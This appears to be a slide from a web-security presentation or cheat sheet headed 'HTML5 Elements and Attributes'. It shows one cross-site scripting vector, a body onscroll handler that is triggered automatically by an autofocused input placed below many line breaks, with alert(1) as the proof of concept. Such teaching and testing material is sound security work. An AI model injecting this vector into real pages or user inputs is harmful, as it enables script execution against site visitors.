

# HTML5 Elements and Attributes
<body onscroll=alert(1)>
<br><br><br><br><br><br>...<br><br><br><br><input autofocus>